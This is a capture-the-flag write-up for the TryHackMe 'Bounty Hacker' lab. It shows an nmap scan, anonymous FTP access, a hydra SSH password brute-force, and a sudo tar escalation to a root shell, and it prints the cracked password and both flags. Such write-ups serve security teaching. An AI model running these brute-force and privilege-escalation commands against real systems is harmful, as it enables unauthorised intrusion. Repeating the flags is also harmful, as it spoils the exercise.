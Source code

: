 ```yaml
---
title: Bounty Hacker
date: 2022-05-27 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```




### Find open ports on the machine

run a quick Nmap scan:

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.101.89 
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

### Who wrote the task list? 

Let's start checking the ftp server, I tried to login with Anonymous and I had success, they where only 2 files, locks.txt and task.txt

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

this file seems to be a list of possible usernames, or perhaps passwords.

task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

not sure what those tasks mean. but we have the answer:

> lin

### What service can you bruteforce with the text file found?

I take a guess and I think it's gonna be the ssh service since it says service, and not some login page in the webserver which after a quick look to /login and /login.php did not found a page.

so let's prepare the hydra command to bruteforce the service.

```terminal
hydra -l lin -P locks.txt 10.10.101.89 ssh
```

and we got a winner!  'RedDr4gonSynd1cat3'

### What is the users password? 

> RedDr4gonSynd1cat3

### user.txt

login to the ssh service with the credentials we got, and cat the file on lin's directory:

> THM{CR1M3_SyNd1C4T3}

### root.txt

run 'sudo -l' to see what we can run as sudo, and we have something '/bin/tar', let's head over to gtfobins to the if there's a way to get a root shell taking advantage of this.

```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and we got ourselves a shell!
now just cat the file on /root directory.

> THM{80UN7Y_h4cK3r}